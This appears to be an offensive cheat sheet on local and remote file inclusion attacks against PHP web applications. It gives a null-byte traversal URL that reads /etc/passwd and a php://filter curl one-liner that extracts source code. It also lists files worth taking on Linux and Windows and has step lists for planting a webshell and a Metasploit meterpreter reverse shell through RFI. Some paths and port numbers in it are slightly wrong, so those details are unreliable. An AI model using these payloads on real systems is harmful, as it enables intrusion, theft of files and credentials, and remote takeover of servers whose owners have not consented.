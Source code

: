 **Auto-Extension (.php) Bypass (PHP version < 5.3):**

* NULL "%00"

{% highlight bash %}
/index.php?system=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%00Admin
{% endhighlight %}

>**Shell from RFI and LFI**

**Test Tool - fimap**
{% highlight bash %}
fimap -u 'http://website/?p=file.html'
{% endhighlight %}

**Using ZAP to Fuzz the URL:**
1. Right click on request that looks injectable -> fuzz using
[JHADDIX_LFI](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/lfi/JHADDIX_LFI.txt)


**What to go after - Linux:**
* /etc/passwd
* [Linux pwnwiki](http://pwnwiki.io/#!presence/linux/blind.md)

**What to go after - Windows:**
* Old IIS: HTTP://vulnsite/scripts/../../../winnt/system32/CMD.exe+/C+dir (may need to encode the slashes)
* http://vulnsite/index.php?templ=../include/siteconfig.inc (or just templ=red)
* /global.asax
* \docume~1\fprefect\mydocu~1
* \windows\system32\cmd.exe
* [Windows pwnwiki](http://pwnwiki.io/#!presence/windows/blind.md)

**File Locations -Debian w/ Apache:**
* /var/www/html
* /home/username/public_html
* /use/lib/cgi-bin

**Grab PHP files and Binary Data**

{% highlight bash %}
curl -s "http://localhost/ex1.php?page=php://filter/convert.base64-encode/resource=[resource]" | base64 -d
<br>
Examples:<br>
/etc/php/7.0/apache2/php.ini
index.php
{% endhighlight %}

**RFI Shell 1:**
1. VI a webshell (https://binaryexile.github.io/6%20-%20Web%20Application/Vulnerabilities/)
2. python -m SimpleHTTPServer 8080
3. Set up netcat listener (if needed based on webshell)
3. Navigate to shell (http://www.victim.com/index.php?page=http://127.0.0.1:4321/shellcommand.txt)

**RFI Meterpreter Shell:**
1. Create Payload: msfvenom LPORT=1234 LHOST=192.168.1.8 -p php/meterpreter_reverse_tcp -f raw > ~/met_rev_tcp_1234.txt
2. Wrap it: add <?php ?> to the payload
3.  Set up handler: 
* use exploit/multi/handler
* set payload php/meterpreter_reverse/tcp
* set lhost 192.168.1.8
* set lport 1234
exploit
4.  python -m SimpleHTTPServer 8080
5. Navigate to shell (http://www.victim.com/index.php?page=http://127.0.0.1:4321/shellcommand.txt)
